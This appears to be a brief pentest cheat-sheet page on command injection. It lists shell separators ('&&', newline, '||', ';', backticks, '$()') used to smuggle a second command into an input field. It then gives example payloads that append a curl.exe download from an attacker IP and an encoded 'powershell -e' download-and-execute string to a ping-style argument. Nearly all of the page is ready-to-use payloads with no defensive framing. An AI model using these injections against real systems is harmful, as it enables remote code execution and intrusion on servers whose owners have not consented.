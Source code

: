# Command Injection

### Ways to obtain Command Injection

<pre><code><strong>&#x26;&#x26;
</strong><strong>%0a or \n (infront of the command, eg: ping=%0awhoami)
</strong>||
;
`command`
$(comand)
</code></pre>

### Examples

```
127.0.0.1 && curl.exe http://192.168.45.160/hello.txt -o hello.txt
127.0.0.1 && powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiA...
```
